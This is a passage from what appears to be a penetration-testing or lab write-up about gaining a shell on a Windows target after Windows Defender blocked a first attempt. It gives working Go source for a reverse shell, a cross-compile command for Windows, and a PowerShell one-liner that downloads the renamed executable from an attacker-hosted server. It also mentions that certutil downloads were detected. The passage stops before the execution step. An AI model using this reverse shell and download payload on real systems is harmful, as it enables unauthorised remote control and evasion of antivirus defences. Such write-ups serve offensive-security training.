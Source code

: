 But no success. This is due to the fact that it gets detected by Windows Defender and we can see it in the Apache error logs:

![37a52f97baac575fc7962967d1c340a1.png](/assets/37a52f97baac575fc7962967d1c340a1.png)

So what I did was to just create an executable that is able to spawn the reverse shell for me.

I used golang for this purpose since I'm confident with it and also it's easy to perform [cross compile](https://en.wikipedia.org/wiki/Cross_compiler).

```go
package main
import ("os/exec"
        "os"
        "net")

func main(){
        beeboop, _:=net.Dial("tcp", os.Args[1])
        lol:=exec.Command(os.Args[2])
        lol.Stdin=beeboop
        lol.Stdout=beeboop
        lol.Stderr=beeboop
        lol.Run()
}
```

The program accepts two arguments:
- The address and port to connect to
- The binary to execute

Upon execution it contacts the address supplied, spawns a process and attaches the stdin, stdout, stderr of the process to the socket.
To compile on Linux for Windows:

```bash
env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" reverse_shell.go
```

I renamed the executable in `general.exe` , uploaded the executable on a web server and downloaded it by using the following payload on our target:

```bash
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.80.131:8000/general.exe','general.exe')
```
> NOTE: Downloading payload by using `certutil.exe` caught Windows Defender attention. I didn't show the steps to just not make the article too long.

and then executing the downloaded file by passing the address of the attacking machine and the name of the programm to execute:
